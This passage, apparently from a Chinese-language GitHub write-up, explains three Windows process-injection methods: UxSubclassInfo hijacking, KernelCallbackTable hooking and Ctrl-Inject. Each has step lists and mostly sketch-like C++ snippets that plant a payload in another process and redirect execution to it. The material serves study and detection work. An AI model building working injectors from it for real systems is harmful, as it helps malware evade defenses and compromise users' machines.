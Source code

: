 ```cpp  
WriteProcessMemory(p, (LPVOID)(target_new_subclass), (LPVOID)new_subclass, sizeof(new_subclass), NULL); // Or any other write memory primitive
SetProp(hc, "UxSubclassInfo", target_new_subclass);
PostMessage(hc, WM_KEYDOWN, VK_NUMPAD1, 0);
Sleep(1);
SetProp(hc, "UxSubclassInfo", old_subclass);
```  

### KernelControlTable execution method  
这项技术最初被发现于2018年FinFisher恶意软件当中,他利用hook PEB中KernelCallbackTable中得 _fnCOPYDATA函数,再向目标窗口发送WM_COPYDATA消息来触发payload.这种方法必须要求目标进程拥有一个窗口,当然KernelControlTable里得其他函数如果找到合适得触发方式也是可以利用.  
> a. 将数据写入到目标进程当中  
> b. 获取目标进程的PEB,逐步找到KernelCallbacktable  
> c. 将__fnCOPYDATA的函数指针修改为payload后,将新的table写入到目标进程当中  
> d. 使用WM_COPYDATA去触发执行过程  
```cpp
HANDLE p = OpenProcess(PROCESS_QUERY_INFORMATION| PROCESS_VM_OPERATION| PROCESS_VM_READ| PROCESS_VM_WRITE, FALSE, process_id);
PROCESS_BASIC_INFORMATION pbi;
ntdll!NtQueryInformationProcess(p,ProcessBasicInformation, &pbi, sizeof(pbi),NULL);
PEB peb;
ReadProcessMemory(p, pbi.PebBaseAddress, &peb, sizeof(peb), NULL);
KERNELCALLBACKTABLE kct;
ReadProcessMemory(p, peb.KernelCallbackTable, &kct, sizeof(kct), NULL);
LPVOID target_payload = VirtualAllocEx(p, NULL, sizeof(payload),MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(p, target_payload, payload, sizeof(payload), NULL);
LPVOID target_kct = VirtualAllocEx(p, NULL, sizeof(kct), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
kct.__fnCOPYDATA = (ULONG_PTR)target_payload;
WriteProcessMemory(p, target_kct, &kct, sizeof(kct), NULL);
WriteProcessMemory(p, (PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable), &target_kct, sizeof(ULONG_PTR), NULL);
COPYDATASTRUCT cds;
cds.dwData = 1;
wchar_t msg[] = L"foo";
cds.cbData = lstrlenW(msg) * 2;
cds.lpData = msg;
SendMessage(hw, WM_COPYDATA, (WPARAM)hw, (LPARAM)&cds); // hw can be obtained via e.g. EnumWindows
WriteProcessMemory(p, (PBYTE)pbi.PebBaseAddress + offsetof(PEB,
KernelCallbackTable), &peb.KernelCallbackTable, sizeof(ULONG_PTR), NULL);
```  
### Ctrl-Inject execution method  
这种方法被Rotem Kerner发明于2018,这种方式必须被利用在控制台程序中,它基于控制台程序在处理Ctrl+C信号时,系统会在目标进程创建一个线程调用CtrlRoutine函数,该函数使用名为HandlerList的全局变量来存储回调函数列表,在该函数中会循环执行,直到其中一个处理程序返回TRUE(通知该信号已被处理)为止.我们将HandlerList当中的函数地址修改未payload的地址即可实现运行.  
> a. 将数据使用写方法写入到目标进程当中  
> b. 使用RtlEncodeRemotePointer将payload的指针加密  
> c. 将指针写入到HandlerList表当中  
> d. 向目标窗口发送Ctrl+C的信号触发执行  
```cpp  
HANDLE h = OpenProcess(PROCESS_VM_WRITE | PROCESS_VM_OPERATION, FALSE,process_id);
void* encoded_addr = NULL;
ntdll!RtlEncodeRemotePointer(h, target_execution, &encoded_addr);
WriteProcessMemory(h, kernelbase!SingleHandler, &encoded_addr, 8, NULL);
INPUT ip;
ip.type = INPUT_KEYBOARD;
ip.ki.wScan = 0;
ip.ki.time = 0;
ip.ki.dwExtraInfo = 0;
ip.ki.wVk = VK_CONTROL;
ip.ki.dwFlags = 0; // 0 for key press
SendInput(1, &ip, sizeof(INPUT));
Sleep(100);
```